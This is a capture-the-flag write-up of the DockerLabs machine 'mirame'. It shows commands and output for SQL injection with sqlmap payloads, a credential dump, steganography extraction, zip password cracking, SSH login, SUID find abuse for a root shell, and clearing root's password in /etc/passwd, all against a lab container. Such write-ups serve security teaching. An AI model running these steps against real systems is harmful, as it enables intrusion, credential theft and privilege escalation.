




# mirame

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| mirame | maciiii___ | easy | dockerlabs |

**Summary:** This assessment started from a web login surface that exposed a SQL injection condition in the authentication workflow. By replaying the intercepted POST request and automating inference with sqlmap, I extracted valid records from the backend `users` database, then validated that these credentials were not directly reusable for remote shell access. Further web enumeration revealed an attacker controlled path derived from leaked credential material, which exposed a JPEG carrying hidden data. Steganographic extraction yielded an encrypted archive, password cracking recovered the archive key, and the recovered secret produced working SSH credentials for user `carlos`. Local privilege escalation was then achieved by identifying a dangerously permissive SUID `find` binary, spawning a privileged shell with preserved effective UID, and finalizing root level access on the target system.

***

## Reconnaissance

1. I deployed the lab and identified exposed services with a full TCP scan using default scripts and version detection.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[~/dockerlabs/mirame]
└─$ sudo bash auto_deploy.sh mirame.tar
[sudo] password for ouba:

                            ##        .
                      ## ## ##       ==
                   ## ## ## ##      ===
               /""""""""""""""""\___/ ===
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/
                 \    \        __/
                  \____\______/

  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]


Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-23 20:59 WIB
Nmap scan report for 172.17.0.2
Host is up (0.0000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
|   256 2c:ea:4a:d7:b4:c3:d4:e2:65:29:6c:12:c4:58:c9:49 (ECDSA)
|_  256 a7:a4:a4:2e:3b:c6:0a:e4:ec:bd:46:84:68:02:5d:30 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: Login Page
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.75 seconds
```

The HTTP service exposed a login interface on port 80.



2. I tested single quote input in the login form and observed a backend error condition consistent with injectable SQL handling.



3. I captured the authentication request so it could be replayed safely during SQL injection testing.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ cat req.txt
POST /auth.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: id,en-US;q=0.9,en;q=0.8,id-ID;q=0.7,la;q=0.6
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 23
Content-Type: application/x-www-form-urlencoded
Host: 172.17.0.2
Origin: http://172.17.0.2
Referer: http://172.17.0.2/index.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36

username=aa&password=aa
```

## Initial Access

1. I executed sqlmap against the captured request and confirmed multiple injection techniques on the `username` parameter, then enumerated available databases.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ sqlmap -r req.txt --batch --dbs
sqlmap identified the following injection point(s) with a total of 354 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=aa' OR NOT 6054=6054#&password=aa

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=aa' AND (SELECT 2691 FROM(SELECT COUNT(*),CONCAT(0x716b6a7171,(SELECT (ELT(2691=2691,1))),0x7162707871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- qshU&password=aa

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=aa' AND (SELECT 9652 FROM (SELECT(SLEEP(5)))taXX)-- puBR&password=aa
---
web server operating system: Linux Debian
web application technology: Apache 2.4.61
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
available databases [2]:
[*] information_schema
[*] users
```

2. I dumped the `users` database and recovered cleartext credentials.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ sqlmap -r req.txt --batch -D users --tables --dump
Database: users
[1 table]
+----------+
| usuarios |
+----------+
Database: users
Table: usuarios
[4 entries]
+----+------------------------+------------+
| id | password               | username   |
+----+------------------------+------------+
| 1  | chocolateadministrador | admin      |
| 2  | lucas                  | lucas      |
| 3  | soyagustin123          | agustin    |
| 4  | directoriotravieso     | directorio |
+----+------------------------+------------+
```

3. Direct SSH login with recovered pairs was unsuccessful, so I pivoted to web content enumeration and found a path related to leaked credential data.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ gobuster dir -u $url -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 275]
/.hta.php             (Status: 403) [Size: 275]
/.hta.html            (Status: 403) [Size: 275]
/.hta.txt             (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/auth.php             (Status: 200) [Size: 1852]
/index.php            (Status: 200) [Size: 2351]
/index.php            (Status: 200) [Size: 2351]
/page.php             (Status: 200) [Size: 2169]
/server-status        (Status: 403) [Size: 275]
Progress: 18452 / 18452 (100.00%)
===============================================================
Finished
===============================================================
```
Turn out the password was the directory.


4. Inside `/directoriotravieso/`, I discovered and downloaded `miramebien.jpg`, then validated the file type.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ wget $url/directoriotravieso/miramebien.jpg
--2026-03-24 14:50:37--  http://172.17.0.2/directoriotravieso/miramebien.jpg
Connecting to 172.17.0.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6324 (6.2K) [image/jpeg]
Saving to: ‘miramebien.jpg’

miramebien.jpg                                              100%[===========================================================================================================================================>]   6.18K  --.-KB/s    in 0s

2026-03-24 14:50:37 (331 MB/s) - ‘miramebien.jpg’ saved [6324/6324]


┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ file miramebien.jpg
miramebien.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 96x96, segment length 16, baseline, precision 8, 243x207, components 3
```


5. I extracted hidden content with stegseek and obtained an archive payload from the image.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ stegseek miramebien.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "chocolate"
[i] Original filename: "ocultito.zip".
[i] Extracting to "miramebien.jpg.out".

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ file miramebien.jpg.out
miramebien.jpg.out: Zip archive data, made by v3.0 UNIX, extract using at least v1.0, last modified Aug 10 2024 19:43:52, uncompressed size 16, method=store
```

6. The extracted archive was encrypted, so I converted it for cracking and recovered the password, then extracted `secret.txt`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ mv miramebien.jpg.out mirame.zip

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ unzip mirame.zip
Archive:  mirame.zip
[mirame.zip] secret.txt password:
   skipping: secret.txt              incorrect password
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ zip2john mirame.zip > hash
ver 1.0 efh 5455 efh 7875 mirame.zip/secret.txt PKZIP Encr: 2b chk, TS_chk, cmplen=28, decmplen=16, crc=703553BA ts=9D7A cs=9d7a type=0

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stupid1          (mirame.zip/secret.txt)
1g 0:00:00:00 DONE (2026-03-24 14:51) 25.00g/s 204800p/s 204800c/s 204800C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ unzip mirame.zip
Archive:  mirame.zip
[mirame.zip] secret.txt password:
 extracting: secret.txt
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ cat secret.txt
carlos:carlitos
```

7. The recovered credentials provided successful SSH access as `carlos`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/mirame]
└─$ ssh carlos@$ip
...
carlos@172.17.0.2's password:
Linux 1901100352ff 6.6.87.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun  5 18:30:46 UTC 2025 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug 10 19:44:14 2024 from 172.17.0.1
carlos@1901100352ff:~$ id;ls -la
uid=1000(carlos) gid=1000(carlos) groups=1000(carlos),100(users)
total 20
drwx------ 2 carlos carlos 4096 Aug 10  2024 .
drwxr-xr-x 1 root   root   4096 Aug 10  2024 ..
-rw-r--r-- 1 carlos carlos  220 Aug 10  2024 .bash_logout
-rw-r--r-- 1 carlos carlos 3526 Aug 10  2024 .bashrc
-rw-r--r-- 1 carlos carlos  807 Aug 10  2024 .profile
```

## Privilege Escalation

1. I enumerated SUID binaries and identified `/usr/bin/find` with world writable and SUID permissions, which is a critical privilege boundary failure.

```bash
carlos@1901100352ff:~$ find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null
-rwsr-xr-x 1 root root 14416 Nov 30  2023 /usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
-rwsr-xr-- 1 root messagebus 51272 Sep 16  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 653888 Jun 22  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 52880 Mar 23  2023 /usr/bin/chsh
-rwsr-xr-x 1 root root 35128 Mar 28  2024 /usr/bin/umount
-rwsr-xr-x 1 root root 72000 Mar 28  2024 /usr/bin/su
-rwsr-xr-x 1 root root 59704 Mar 28  2024 /usr/bin/mount
-rwsr-xr-x 1 root root 48896 Mar 23  2023 /usr/bin/newgrp
-rwsrwxrwx 1 root root 224848 Jan  8  2023 /usr/bin/find
-rwsr-xr-x 1 root root 88496 Mar 23  2023 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 68248 Mar 23  2023 /usr/bin/passwd
-rwsr-xr-x 1 root root 62672 Mar 23  2023 /usr/bin/chfn
-rwsr-xr-x 1 root root 281624 Jun 27  2023 /usr/bin/sudo
```

2. I validated the exploitation path using the known `find` SUID technique.



3. I executed the SUID abuse primitive to spawn a privileged shell, then converted access into a stable root login context.

```bash
carlos@1901100352ff:~$ find . -exec /bin/sh -p \; -quit
# id
uid=1000(carlos) gid=1000(carlos) euid=0(root) groups=1000(carlos),100(users)
```

```bash
# sed -i 's/^root:x:/root::/' /etc/passwd
# su - root
root@1901100352ff:~# id;whoami;hostname;ls -la;pwd
uid=0(root) gid=0(root) groups=0(root)
root
1901100352ff
total 28
drwx------ 1 root root 4096 Aug 10  2024 .
drwxr-xr-x 1 root root 4096 Mar 24 07:34 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x 3 root root 4096 Aug 10  2024 .local
-rw------- 1 root root 1488 Aug 10  2024 .mysql_history
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
drwx------ 2 root root 4096 Aug 10  2024 .ssh
/root
```

***

## Attack Chain Summary
1. **Reconnaissance**: Port discovery showed SSH and Apache, and manual login testing revealed behavior consistent with unsafe SQL handling.
2. **Vulnerability Discovery**: Intercepted authentication traffic confirmed injectable input in `username`, and database enumeration exposed credential records.
3. **Exploitation**: Credential intelligence enabled targeted web enumeration, discovery of a hidden path, steganographic extraction, archive cracking, and recovery of SSH credentials.
4. **Internal Enumeration**: After landing as `carlos`, local permission analysis identified an unsafe SUID `find` binary with severe privilege implications.
5. **Privilege Escalation**: SUID `find` produced a root effective shell, then `/etc/passwd` modification enabled persistent full root session access.

